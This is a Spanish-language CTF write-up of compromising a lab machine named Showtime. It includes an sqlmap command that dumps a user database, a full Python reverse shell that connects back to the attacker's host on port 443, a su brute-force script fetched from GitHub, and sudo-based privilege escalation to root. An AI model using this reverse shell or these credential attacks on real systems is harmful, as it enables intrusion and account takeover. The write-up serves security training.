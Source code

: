 Escaneo de puertos con Nmap:

![](../../../Images/Pasted%20image%2020240724100312.png)

Observo lo que hay en el puerto 80:

![](../../../Images/Pasted%20image%2020240724100412.png)
Es una pagina web que contiene un casino y sus respectivos juegos

Haré fuzzing web usando la herramienta de Gobuster:

![](../../../Images/Pasted%20image%2020240724100928.png)

Y encuentro un directorio llamado /login_page

Veo lo que hay en esta dirección:

![](../../../Images/Pasted%20image%2020240724101000.png)

Tengo un panel de login

Voy a hacer una inyección SQL con ayuda de la herramienta Sqlmap para ver si es vulnerable:
1.  Enumeraré posibles bases de datos
```
sqlmap --url [http://172.17.0.3/login_page/](http://172.17.0.3/login_page/) --dbs --batch --forms
```

![](../../../Images/Pasted%20image%2020240724102205.png)

![](../../../Images/Pasted%20image%2020240724102216.png)

Usaré la base de datos Users

2. Enumeraré posibles tablas, de esta base de datos:

![](../../../Images/Pasted%20image%2020240724102310.png)

![](../../../Images/Pasted%20image%2020240724102320.png)

Tengo la tabla llamada Usuarios

3. Enumeraré posibles columnas de esta tabla:

![](../../../Images/Pasted%20image%2020240724102357.png)

![](../../../Images/Pasted%20image%2020240724102409.png)

Tengo 3 columnas id, password y username

4. Y por último, enumeraré usuarios de estas 3 columnas:

![](../../../Images/Pasted%20image%2020240724102726.png)

![](../../../Images/Pasted%20image%2020240724102740.png)

Tengo 3 usuarios con sus respectivas contraseñas

Probaré a entrar con el usuario Joe y su respectiva contraseña

![](../../../Images/Pasted%20image%2020240724102945.png)

Y estoy dentro:

![](../../../Images/Pasted%20image%2020240724103003.png)

Tengo un campo para escribir un comando o codigo en python y ver su resultado

Un ejemplo es:

![](../../../Images/Pasted%20image%2020240724103107.png)

Y doy click en "Ejecutar comando"

Y me da como resultado:

![](../../../Images/Pasted%20image%2020240724103134.png)

Ahora, sabiendo eso haré una reverse shell con python:

![](../../../Images/Pasted%20image%2020240724130255.png)

```
`import socket`
`import subprocess`
`import os`

`s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)`
`s.connect(("172.17.0.1", 443))`
`os.dup2(s.fileno(), 0)`
`os.dup2(s.fileno(), 1)`
`os.dup2(s.fileno(), 2)`
`p = subprocess.call(["/bin/sh", "-i"])`
```
Me pondré a la escucha con netcat por el puerto 443

![](../../../Images/Pasted%20image%2020240724125854.png)

Y doy click en el boton "Ejecutar Comando" y recibo automaticamente la rev shell

![](../../../Images/Pasted%20image%2020240724130656.png)

Haré tratamiento de la TTY:

![](../../../Images/Pasted%20image%2020240724130726.png)

![](../../../Images/Pasted%20image%2020240724130751.png)

## ESCALADA DE PRIVILEGIOS

En la carpeta /tmp encuentro un archivo con unos trucos para un juego, pero en realidad pueden ser posibles contraseñas:

![](../../../Images/Pasted%20image%2020240725100027.png)

Así que primero pasaré esta lista de mayúsculas a minúsculas, con este comando:
```shell
tr '[:upper:]' '[:lower:]' < archivo.txt > archivo_minusculas.txt
```

![](../../../Images/Pasted%20image%2020240725100324.png)

Y listo ya lo tengo en minúsculas:

![](../../../Images/Pasted%20image%2020240725100356.png)

Ahora haré un ataque de fuerza bruta con este diccionario de contraseñas, así que me descargaré una herramienta en bash para que me automatice esta acción.

Usaré esta herramienta de Maalfer https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh

![](../../../Images/Pasted%20image%2020240725100600.png)

Me creo un servidor con python con el puerto 80 para enviarme esta herramienta hacia la maquina Showtime:

![](../../../Images/Pasted%20image%2020240725100724.png)

![](../../../Images/Pasted%20image%2020240725100901.png)

Y listo, ya tengo la herramienta de fuerza bruta en la maquina

Ahora le doy permisos de ejecución con chmod +x

![](../../../Images/Pasted%20image%2020240725100946.png)

Y ejecuto la herramienta de fuerza bruta contra el usuario joe y de contraseñas usaré el diccionario de las palabras pero en minusculas:

![](../../../Images/Pasted%20image%2020240725101046.png)

![](../../../Images/Pasted%20image%2020240725101057.png)

Y me la encontró

Ahora procedo a ser el usuario joe con su respectiva contraseña:

![](../../../Images/Pasted%20image%2020240725101157.png)

Ejecuto sudo -l para ver el binario que podré usar

![](../../../Images/Pasted%20image%2020240725101224.png)

Observo que puedo ser el usuario luciano con el binario Posh

Miro en GTFOBins como puedo escalar con este binario:

![](../../../Images/Pasted%20image%2020240725101302.png)

Lo ejecuto:

![](../../../Images/Pasted%20image%2020240725101352.png)

Y listo, ya soy el usuario luciano

Ejecuto sudo -l para ver el binario que podré usar

![](../../../Images/Pasted%20image%2020240725101415.png)

Observo que para ser root puedo ejecutar un script hecho en bash

Lo que contiene el script.sh ubicado en la carpeta /home/luciano es una reverse shell pero con una ip diferente a la mia, asi q procederé a modificar este archivo con una /bin/bash para que al momento de ejecutarlo sea root inmediatamente:

![](../../../Images/Pasted%20image%2020240725101701.png)

Lo ejecutamos:

![](../../../Images/Pasted%20image%2020240725101725.png)

Y listo, ya soy ROOT
